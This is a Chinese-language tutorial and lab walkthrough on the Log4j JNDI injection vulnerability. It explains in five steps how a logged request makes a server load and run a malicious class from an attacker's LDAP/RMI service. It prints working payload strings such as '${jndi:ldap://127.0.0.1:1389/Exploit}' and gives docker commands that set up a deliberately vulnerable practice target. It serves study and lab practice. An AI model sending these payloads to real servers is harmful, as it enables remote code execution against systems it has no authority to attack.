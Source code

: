 **攻击流程**

![log4j (5)](漏洞利用\log4j (5).png)

1.攻击伪装一个请求体，里面含有JNDI可执行的服务, 主要是LDAP与RMI两种协议，请求URL如下。

```
 ${jndi:ldap://127.0.0.1:1389/Exploit}

 ${jndi:rmi://127.0.0.1:1389/Exploit}
```

2.在应用程序恰巧输出了请求头或者入参的log日志时,就会触发此URL的请求，并主动请求了攻击者准备的LADP/RMI服务。

3.利用LADP/RMI的特性，伪装返回值，含有要执行的恶意Class文件地址，与Class类名。

4.被攻击的服务器找不到对应Class文件就会触发JNDI的机制从远程服务器中下载Class。

5.用我们事先准备好的web服务给被攻击服务器提供可执行Class文件下载，被攻击服务器拿到到Class文件后会触发反序列化执行代码，达到了远程执行代码的目的漏洞复现。

### 实践
* **实验环境**

  攻击机：kali	ip 192.168.180.130

  靶机：雷石安全实验室搭建的漏洞靶场

* **步骤**
  
  * 第一步：雷石安全实验室搭建的漏洞靶场docker-compose.yml地址：

​			https://github.com/fengxuangit/log4j_vuln

​			或者直接运行命令搭建docker对象（需要提前安装好docker）。

  ```bash
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-   hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
  ```

  访问http://127.0.0.1:8080/webstudy/

<img src="漏洞利用\log4j (6).png" alt="log4j (6)" style="zoom:61%;" />
